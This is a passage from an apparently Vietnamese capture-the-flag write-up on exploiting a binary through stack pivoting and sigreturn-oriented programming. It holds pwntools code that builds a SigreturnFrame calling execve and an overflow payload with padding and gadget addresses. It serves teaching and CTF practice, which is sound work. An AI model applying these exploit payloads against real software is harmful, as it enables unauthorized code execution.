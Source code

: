 Sau khi nhập đúng `0xf` byte vào, ta thấy chương trình sẽ dùng số byte nhập được đó đưa vào rdx và sẽ in ra đúng `0xf` byte, giúp ta duy trì `0xf` trên rax. Và khi chương trình `leave ; ret`, ta sẽ tìm cách pivot sao cho saved rip chứa địa chỉ `syscall`. Từ đó ta thực hiện được sigreturn.

Vậy trước tiên, ta phải nhập frame của sigreturn trước. Thấy số byte nhập vào lớn hơn `0xf` nên ta biết ta sẽ phải thực hiện stack pivot lần nữa.

Vậy trước tiên, ta tạo 1 frame `SigreturnFrame` bằng pwntools và set rax thành syscall của execve, rsp và rdi ta đặt tùy ý, còn rip ta sẽ thay thành địa chỉ syscall (dùng ROPgadget để lấy syscall hoặc dùng bất cứ syscall của phần dissasembly bên trên):

```python
syscall = 0x000000000040100f

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = rw_section - 0x400
frame.rip = syscall
frame.rsp = rw_section
```

Ta thấy rằng `len(frame)` dài `0xf8` byte. Vậy payload của ta sẽ chứa `0x100` byte pad đầu để tránh việc ghi đè làm thay đổi structure của frame, sau đó cộng thêm frame vào và thêm pad để điều chỉnh rbp và rip:

```python
payload = b'A'*0x100
payload += bytes(frame)
payload = payload.ljust(0x400, b'P')
payload += flat(
    rw_section,         # Saved rbp
    0xdeadbeef)         # Saved rip
p.send(payload)
```

Sau khi ta ghi structure xong, ta sẽ muốn chương trình chạy lại để nhập input. Nhưng với payload trên, ta chỉ có thể khiến cho rip thực thi duy nhất câu lệnh `0xdeadbeef` (vì chưa biết nên đưa gì vào saved rip nên mình để đỡ vậy)

Cách tiện nghi nhất là ta dùng gadget `leave ; ret` để stack pivot lần nữa với cái saved rbp trỏ vào phần pad trước frame hoặc sau frame. Ta trỏ ở đâu thì ta thiết lập cho chương trình thực thi lệnh read của chương trình và cho nó return to syscall. Mục tiêu của ta là phải để syscall ngay kế bên frame thì khi thực hiện sigreturn mới đúng được.

Vậy trước tiên, ta thêm địa chỉ read và syscall vào trước frame:

```python
payload = b'A'*0x100
payload += flat(        # Change here
    0x401043,           # Change here
    syscall,            # Change here
    bytes(frame)        # Change here
    )                   # Change here
payload = payload.ljust(0x400, b'P')
payload += flat(
    rw_section,         # Saved rbp
    0xdeadbeef)         # Saved rip
p.send(payload)
```
